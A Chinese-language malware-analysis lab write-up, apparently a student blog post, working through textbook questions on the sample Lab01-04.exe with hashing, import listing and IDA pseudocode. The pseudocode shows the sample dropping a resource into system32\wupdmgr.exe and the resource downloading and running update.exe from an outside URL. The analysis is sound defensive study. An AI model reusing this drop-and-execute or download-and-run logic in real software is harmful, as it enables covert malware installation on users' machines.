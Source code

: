 ```yaml
---
title: "lab 1-4"
date: 2019-05-01T12:56:05+08:00
tags: [""]
categories: ["系统理论课程", "恶意代码分析"]
---
```



## QUESTION 1

> Upload the Lab01-04.exe file to http://www.VirusTotal.com/. Does it match any existing antivirus definitions?

文件的 sha256 哈希值：

```bash
$ sha256sum Lab01-04.exe
0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126  Lab01-04.exe
```

因此上传的 `url` 为：https://www.virustotal.com/#/file/0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126/detection

可以看到这同样是一个被 53 个引擎检测出来的木马。

## QUESTION 2

> Are there any indications that this file is packed or obfuscated? If so, what are these indicators? If the file is packed, unpack it if possible.

使用 `blackarch` 的工具 `packerid`：

```bash
$ packerid Lab01-04.exe 
['Microsoft Visual C++ v5.0/v6.0 (MFC)']
```

可见这个文件并没有加壳。

## QUESTION 3

> When was this program compiled?

PE 文件的文件结构可以参考[微软的官方文档](https://docs.microsoft.com/en-us/windows/desktop/debug/pe-format)。

可以找到在对象文件的的最开始，存在一个标准文件头，其中有一个 `TimeDateStamp` 域，指示了文件创建时的时间戳，可以使用以下的 python 脚本读取它：

```python
#！/usr/bin/env python3
from datetime import datetime
import pefile

pe = pefile.PE("/tmp/BinaryCollection/Chapter_1L/Lab01-04.exe")
print(datetime.fromtimestamp(pe.FILE_HEADER.TimeDateStamp))
```

```bash
$ python labb01-04.exe
2019-08-31 06:26:59
```

## QUESTION 4

> Do any imports hint at this program’s functionality? If so, which imports are they and what do they tell you?

使用 `blackarch` 的工具 `malscan`：

```bash
$ malscan Lab01-04.exe
...
[Imports Overview]

KERNEL32.dll
        0x402010 GetProcAddress
        0x402014 LoadLibraryA
        0x402018 WinExec
        0x40201c WriteFile
        0x402020 CreateFileA
        0x402024 SizeofResource
        0x402028 CreateRemoteThread
        0x40202c FindResourceA
        0x402030 GetModuleHandleA
        0x402034 GetWindowsDirectoryA
        0x402038 MoveFileA
        0x40203c GetTempPathA
        0x402040 GetCurrentProcess
        0x402044 OpenProcess
        0x402048 CloseHandle
        0x40204c LoadResource

ADVAPI32.dll
        0x402000 OpenProcessToken
        0x402004 LookupPrivilegeValueA
        0x402008 AdjustTokenPrivileges

MSVCRT.dll
        0x402054 _snprintf
        0x402058 _exit
        0x40205c _XcptFilter
        0x402060 exit
        0x402064 __p___initenv
        0x402068 __getmainargs
        0x40206c _initterm
        0x402070 __setusermatherr
        0x402074 _adjust_fdiv
        0x402078 __p__commode
        0x40207c __p__fmode
        0x402080 __set_app_type
        0x402084 _except_handler3
        0x402088 _controlfp
        0x40208c _stricmp
...
```

可见这个可执行文件导入了，执行命令、复制移动写文件、读取文件资源大小、读取文件树、打开关闭进程等危险函数，猜测这是实现了一个了文件查看器的恶意病毒。

## QUESTION 5

> What host- or network-based indicators could be used to identify this malware on infected machines?

我们用 `ida pro` 打开这个可执行文件，先查看它里面的字符串：

![04.exe.ida.strings](../04.exe.ida.strings.png)

我们发现 `\\system32\\wupdmgr.exe` 这样一个字符串，我们查找调用的位置，并查看调用位置的伪代码：

```c
// ...
  GetWindowsDirectoryA(&Buffer, 0x10Eu);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aSystem32Wupdmg);
  hModule = GetModuleHandleA(0);
  hResInfo = FindResourceA(hModule, Name, Type);
  lpBuffer = LoadResource(hModule, hResInfo);
  nNumberOfBytesToWrite = SizeofResource(hModule, hResInfo);
  hFile = CreateFileA(&Dest, 0x40000000u, 1u, 0, 2u, 0, 0);
  WriteFile(hFile, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0);
  CloseHandle(hFile);
  return WinExec(&Dest, 0);
}
```

这段代码的大致用处应该是加载一个可执行文件的资源，然后把这个可执行文件资源复制到一个给定的位置（即 `\\system32\\wupdmgr.exe`），然后执行它。这并没有网络相关请求。

于是我们通过 `binwalk` 命令提取出其中的资源：

```bash
$ binwalk --dd=".*" Lab01-04.exe
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Microsoft executable, portable (PE)
16480         0x4060          Microsoft executable, portable (PE)
```

这条命令将给定文件 `Lab01-04.exe` 中的资源提取到了文件夹 `_Lab01-04.exe.extracted` 中。

```bash
$ cd _Lab01-04.exe.etracted/

$ ls
0  4060
```

我们发现提取出了 `0` 和 `4060` 这两个资源，很显然 `0` 即为之前分析的可执行文件，我们再用  `ida pro` 分析其中的资源文件 `4060`：

![04.resources.ida.string](../04.resources.ida.string.png)

我们发现了一个 `URL` 地址，并且我们还在导入表中发现了 `URLDownloadToFileA` 这个导入函数，我们再分析调用这个字符串位置的伪代码：

```c
// ...
  GetTempPathA(0x10Eu, &Buffer);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aWinupExe);
  WinExec(&Dest, 5u);
  GetWindowsDirectoryA(&v7, 0x10Eu);
  snprintf(&CmdLine, 0x10Eu, aSS_0, &v7, aSystem32Wupdmg);
  if ( !URLDownloadToFileA(0, aHttpWwwPractic, &CmdLine, 0, 0) )
    WinExec(&CmdLine, 0);
  return 0;
}
```

这个段伪代码，向 `http://www.practicalmalwareanalysis.com/update.exe`，下载病毒资源文件并且保存到 `\\system32\\wupdmgrd.exe` 这个文件中。

所以需要监测网络中是否与 `http://www.practicalmalwareanalysis.com/update.exe` 建立了连接。

## QUESTION 6

> This file has one resource in the resource section. Use Resource Hacker to examine that resource, and then use it to extract the resource. What can you learn from the resource?

在第五问中已经使用 `binwalk` 提取出来了。
